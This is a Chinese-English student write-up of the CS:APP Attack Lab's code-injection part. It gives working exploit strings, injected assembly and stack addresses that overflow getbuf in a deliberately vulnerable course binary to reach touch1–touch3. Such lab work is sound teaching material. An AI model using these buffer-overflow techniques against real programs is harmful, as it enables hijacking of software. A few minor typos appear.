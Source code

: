 ### 准备

#### Files

-   ctarget: &ensp; An executable program vulnerable to code-injection attacks
-   rtarget: &ensp; An executable program vulnerable to return-oriented-programming attacks
-   cookie.txt: &ensp; An 8-digit hex code that you will use as a unique identifier in your attacks.
-   farm.c: &ensp; The source code of your target's "gadget farm", which you will use in generating return-oriented
    programming attacks.
-   hex2raw: &ensp; A utility to generate attack strings

#### Target Program

=== "C source code"

    ```C
    unsigned getbuf() {
        char buf[BUFFER_SIZE];
        Gets(buf);
        return 1;
    }
    ```

=== "assembly"

    ```objdump
    00000000004017a8 <getbuf>:
        4017a8:	48 83 ec 28          	sub    $0x28,%rsp
        4017ac:	48 89 e7             	mov    %rsp,%rdi
        4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
        4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
        4017b9:	48 83 c4 28          	add    $0x28,%rsp
        4017bd:	c3                   	retq
        4017be:	90                   	nop
        4017bf:	90                   	nop
    ```

`ctarget` 和 `rtarget` 都通过 `getbuf` 从标准输入中读入字符串 (terminated by `\n`) 并存储 (along with a null terminator)，需要注意:

-   exploit string 的任何位置都不能包含 `0x0a` (ascii for `\n`)
-   通过反汇编查看 `BUFFER_SIZE`

#### Using `hex2raw`

将需要的十六进制码转换为字符串作为 `target` 的输入，可以通过以下方式:

1.&ensp;set a series of pipes

```console
cat exploit.txt | ./hex2raw | ./ctarget -q
```

2.&ensp;store the raw string in a file and use I/O redirection

```console
./hex2raw < exploit.txt > exploit-raw.txt
./ctarget < exploit-raw.txt
```

#### Generating Byte Codes

```console
gcc -c example.s
objdump -d example.o > example.d
```

#### 知识回顾

函数调用过程: &ensp; 保存状态 → 传参 → `call` → 开栈 → ... → 释放 → `ret`

### Part I: Code Injection Attacks

用 exploit string 攻击 `ctarget` 程序，`getbuf` 被 `test` 函数调用

```C
void test() {
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

通过 `getbuf` 改变 buffer，使其无法安全返回 `test`

#### Level 1

Level1 不要求注入新代码，只需让 `getbuf` 返回到 `touch1`，C rep:

=== "touch1"

    ```C
    void touch1() {
        vlevel = 1;    /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }
    ```

=== "level1.txt"

    ```console
    /* padding 40 bytes */
    ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee
    ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee
    /* first address of touch1() */
    c0 17 40 00 00 00 00
    ```

只需要填充 `0x28` 个字节后，用 `touch1` 的地址 `0x4017c0` 覆盖 `test` 的栈帧，注意小端法

#### Level 2

Level2 需要返回到 `touch2`，返回之前还要调用注入的代码用于传参，使 `val == cookie`

=== "touch2"

    ```C
    void touch2(unsigned val) {
        vlevel = 2;
        if (val == cookie) {
            printf("Touch2!: You called touch2(0x%.8x)\n", val);
            validate(2);
        } elee {
            printf("Misfire: You called touch2(0x%.8x)\n", val);
            fail(2);
        }
        exit(0);
    }
    ```

=== "level2.s"

    ```asm
    pushq  $0x4017ec          # first address of touch2
    mov    $0x59b997fa, %rdi  # cookie
    ret
    ```

=== "level2.d"

    ```objdump
    0000000000000000 <.text>:
        0:	68 ec 17 40 00       	pushq  $0x4017ec
        5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
        c:	c3                   	retq
    ```

=== "level2.txt"

    ```console
    /* padding 40 bytes */
    ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee
    ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee
    /* injectied codes at 0x5561dca0 + 8 */
    a8 dc 61 55 00 00 00 00
    /* encoding of injected codes */
    68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3
    ```

通过 gdb 查看 `getbuf` 栈帧尾端的地址为 `0x5561dca0`，然后破坏 `test` 的栈帧，修改返回值，把注入的代码存放在 `0x5561dca8`

#### Level 3

Level3 与 Level2 相似，但需要传一个字符串指针，使 cookie 的字符串形式与传入的字符串相等

=== "touch3"

    ```C
    void touch3(char *sval) {
        vlevel = 3; /* Part of validation protocol */
        if (hexmatch(cookie, sval)) {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        } else {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }
    ```

=== "hexmatch"

    ```C
    /* Compare string to hex represention of unsigned value */
    int hexmatch(unsigned val, char *sval) {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }
    ```

=== "level3.s"

    ```asm
    pushq  $0x4018fa          # first address of touch3
    mov    $0x5561dca8, %rdi  # address of string constructed manually
    ret
    ```

=== "level3.d"

    ```objdump
    0000000000000000 <.text>:
        0:	68 fa 18 40 00       	pushq  $0x4018fa
        5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
        c:	c3
    ```

=== "level3.txt"

    ```console
    /* padding: 40 bytes */
    ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee
    ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee ee
    /* injected codes at 0x5561dca0 + 8 + 9 */
    b1 dc 61 55 00 00 00 00
    /* string format of cookie */
    35 39 62 39 39 37 66 61 00
    /* encoding of injected codes */
    68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3
    ```

因此在栈帧尾部顺放 cookie 的字符串形式，再放置注入的代码。尽管 `touch3` 调用其他函数，但注入内容都放在了 `test` 的栈帧内，不必担心被破坏。
